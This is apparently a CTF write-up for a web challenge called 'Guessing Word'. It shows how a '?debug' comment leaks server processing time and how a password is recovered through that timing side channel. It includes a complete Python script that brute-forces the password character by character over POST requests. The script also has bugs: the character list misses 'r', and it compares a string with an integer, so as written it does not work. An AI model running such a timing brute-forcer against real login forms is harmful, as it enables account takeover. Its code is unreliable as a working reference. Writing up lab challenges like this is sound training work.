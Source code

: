```yaml
---
title: "[Writeup] ROP: 05 - Guessing Word"
date: 2020-03-17T22:00:00+07:00
categories: [writeup]
tags: [rop, web, ctf, writeup]
---
```


**DISCLAIMER: game.rop.sh was discontinued and is no longer available.**

**Challenge Name:** Guessing Word  
**Type:** Web  
**Score:** 200 pts  
**Link:** [https://game.rop.sh](https://game.rop.sh/task)  

{{< img src="/images/writeup/rop/05/rop_05_challenge.png" alt="Challenge Description">}}*Guessing Word challenge description*

<!--more-->

As usual, the challenge provides us with a link to the website. On the website, there's a text box and a button to submit the password that we need to "GUESS".

{{< img src="/images/writeup/rop/05/rop_05_webpage.png" alt="Challenge Webpage">}}*Webpage of the challenge*

Looking at the page source, we would see this:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="shortcut icon" href="../../docs-assets/ico/favicon.png">

    <title>Guessing Game</title>

    <!-- Bootstrap core CSS -->
    <link href="../../css/bootstrap.css" rel="stylesheet">

    <!-- Custom styles for this template -->
    <link href="signin.css" rel="stylesheet">

    <!-- Just for debugging purposes. Don't actually copy this line! -->
    <!--[if lt IE 9]><script src="../../docs-assets/js/ie8-responsive-file-warning.js"></script><![endif]-->

    <!-- HTML5 shim and Respond.js IE8 support of HTML5 elements and media queries -->
    <!--[if lt IE 9]>
      <script src="https://oss.maxcdn.com/libs/html5shiv/3.7.0/html5shiv.js"></script>
      <script src="https://oss.maxcdn.com/libs/respond.js/1.3.0/respond.min.js"></script>
    <![endif]-->
  </head>

  <body>

    <div class="container">
      <form class="form-signin" role="form" action="index.php" method="POST">
        <h3 class="form-signin-heading">Can you guess my password?</h3>
        <input type="password" class="form-control" placeholder="Password" name="password" required><br>
        <button class="btn btn-lg btn-primary btn-block" type="submit">Enter</button>
        <!-- ?debug for DEBUGGING -->
      </form>
    </div> <!-- /container -->


    <!-- Bootstrap core JavaScript
    ================================================== -->
    <!-- Placed at the end of the document so the pages load faster -->
  </body>
</html>
```

We can see that the form would send a POST request with the password in the textbox to **index.php**.
So let's try inputting *test* into the form and press *Enter*.

{{< img src="/images/writeup/rop/05/rop_05_wrong.png" alt="Result">}}*Result*

Apparently, we guessed wrong. Let's see the source.

```html
Wrong Password<br>
```

... Really? That's it? The whole source is just one line, without any comment as a hint at all.
We need to do something with the input of the form, one of the possibilities would be SQL Injection, but let's look at the source of the first page again, maybe we could find something.

```html
...
        <button class="btn btn-lg btn-primary btn-block" type="submit">Enter</button>
        <!-- ?debug for DEBUGGING -->
      </form>
...
```

Hmmm...? **?debug for DEBUGGING**? Let's try it then, changing the target of the POST request to **index.php?debug** and submit again.

{{< img src="/images/writeup/rop/05/rop_05_wrong.png" alt="Debug Result">}}*Result with ?debug*

The page looks the same; however, something interesting appears in the source.

```
Wrong Password<br><br><!-- Process Time: 0 -->
```

A comment telling us the process time! After several tries, we have found out that different inputs yield different processing times, and we can deduct the correct password from the processing time.

The code would probably look somewhat like this:

```py
correct_pass = "P@ssw0rd"
input = [User input]

wrong = False

# Different input sizes yield equal processing time, so it is probably made to be easy to crack.
for i in range (0, min(len(correct_pass), len(input))):
  if correct_pass[i] != input[i]:
    wrong = True
    break

if len(correct_pass) != len(input):
  wrong = True

if !wrong:
  print("Correct Password")
else:
  print("Wrong Password")
```

With this code, the program would run longer if more characters of the input matches the correct password. Therefore, we can bruteforce it character by character and pick the one with the longest processing time.

I wrote a simple Python script to send POST requests and bruteforce the password.

```py
import requests
import re

url = "https://game.rop.sh/chall/5/index.php?debug"
  
password = ""
charlist = "0123456789abcdefghijklmnopqustuvwxyz!@#$%^&*()_-+="

for i in range(30):
    maxtime = 0
    tempchar = ''
    end = False
    for c in charlist:
        temppass = password + c
        data = {'password':temppass}
        r = requests.post(url = url, data = {"password":temppass})
        
        wrong = re.search('Wrong', r.text)
        if not wrong:
            tempchar = c
            end = True
            break

        find = re.search('Process Time: ([\d\.]+)', r.text)
        if find:
            time = find.group(1)
            if time > maxtime:
                maxtime = time
                tempchar = c
    password = password + tempchar
    print(password)
    if end:
        break

print("Key = " + password)
```

The script would rotate the characters from the list to send as an input, after that, it would save the one with the longest process time and pick the further characters.

After waiting for a while, we got our password.

{{< img src="/images/writeup/rop/05/rop_05_output.png" alt="Script Output">}}*Script Output*

Inputting this key manually on the website yields this result:

{{< img src="/images/writeup/rop/05/rop_05_key.png" alt="Result">}}*Result*

Success!